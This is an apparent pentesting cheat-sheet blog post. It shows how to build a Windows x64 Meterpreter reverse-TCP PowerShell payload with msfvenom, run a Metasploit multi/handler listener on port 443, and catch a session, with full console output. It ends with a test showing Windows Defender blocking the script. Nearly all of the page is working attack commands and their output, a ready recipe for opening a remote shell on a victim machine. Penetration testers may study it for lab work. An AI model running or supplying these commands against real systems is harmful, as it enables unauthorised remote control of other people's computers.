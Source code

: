 ```yaml
---
title: Msfvenom Psh
date: 2021-04-01T16:14:32+05:30
lastmod: 2021-04-01T16:14:32+05:30
author: Animesh Roy
avatar: /img/avatar.jpeg
authorlink: https://anir0y.in
cover: /img/cover.jpg
categories:
  - chatsheet
tags:
  - metasploit
  - tools
draft: false
---
```


# meterpreter reverse shell with powershell

## Create Shell

```bash 
root@kali:~# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.6 LPORT=443 -f psh -o meterpreter-64.ps1
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 510 bytes
Final size of psh file: 3255 bytes
Saved as: meterpreter-64.ps1
```

## Setup listener

```bash
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.10.10.6; set lport 443; set ExitOnSession false; exploit -j"
```

## Interact
```
...[snip]
payload => windows/x64/meterpreter/reverse_tcp
lhost => 10.10.10.6
lport => 443
ExitOnSession => false
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 10.10.10.6:443 
msf exploit(multi/handler) > [*] Sending stage (206403 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.10.6:443 -> 10.10.10.5:53418) 

msf exploit(multi/handler) > sessions -l

Active sessions
===============

Id Name Type Information Connection
-- ---- ---- ----------- ----------
1 meterpreter x64/windows [redacted]
```

## if Windows Defender is enabled

```powershell
PS C:\PENTEST> C:\PENTEST\meterpreter-64.ps1
At C:\PENTEST\meterpreter-64.ps1:1 char:1
+ $VlSIhDyrsor = @"
+ ~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
+ CategoryInfo : ParserError: (:) [], ParentContainsErrorRecordException
+ FullyQualifiedErrorId : ScriptContainedMaliciousContent


PS C:\PENTEST>
```

 ## Summary: 
 The the generated ps1 can be saved to disk, and is not detected as a virus , and runs succesfull creating a shell, but it can’t run with defender enabled on my windows 10 box.
